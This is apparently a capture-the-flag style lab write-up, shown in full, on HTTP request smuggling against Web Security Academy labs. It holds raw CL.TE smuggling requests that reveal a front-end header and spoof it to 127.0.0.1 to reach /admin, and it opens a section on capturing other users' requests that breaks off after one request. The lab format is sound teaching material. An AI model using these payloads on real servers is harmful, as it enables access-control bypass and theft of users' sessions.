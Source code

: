In some cases, if your smuggled requests lack headers typically added by the front-end server, the back-end server may not process them as expected, causing the smuggled requests to fail in achieving their intended objectives.

You can often uncover how the front-end server alters requests by following these steps:

    Identify a POST request that reflects a request parameter's value in the application's response.
    Rearrange the parameters so that the reflected parameter is the last one in the message body.
    Send this modified request to the back-end server, immediately followed by a regular request whose modified form you aim to reveal.



- request
```http
POST / HTTP/1.1
Host: 0a3600c5040f5ca884177e2b00110060.web-security-academy.net
Cookie: session=43WZAzODZhS7tshSG8vHxiOcDdUixfgM
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Transfer-Encoding: chunked

8
search=1
0

POST / HTTP/1.1
Content-Length: 300

search=
```
- response
```http
X-SoDAPc-Ip: 41.40.121.254
Host: 0a3600c5040f5ca884177e2b00110060.web-security-academy.net
Cookie: session=43WZAzODZhS7tshSG8vHxiOcDdUixfgM
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Transfer-Encoding: chunked
```
- attack
```http
POST / HTTP/1.1
Host: 0a3600c5040f5ca884177e2b00110060.web-security-academy.net
Cookie: session=43WZAzODZhS7tshSG8vHxiOcDdUixfgM
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Transfer-Encoding: chunked

8
search=1
0

GET /admin HTTP/1.1
Content-Length: 10
X-SoDAPc-Ip: 127.0.0.1


```
### Capturing other users' requests
- request
```http
POST /post/comment HTTP/1.1
Host: 0ad300f903097f52834a253900ca003a.web-security-academy.net
Cookie: session=56jZRHxyFe7HUHcSGQE9kQxFbSJpx0rQ
Content-Type: application/x-www-form-urlencoded
```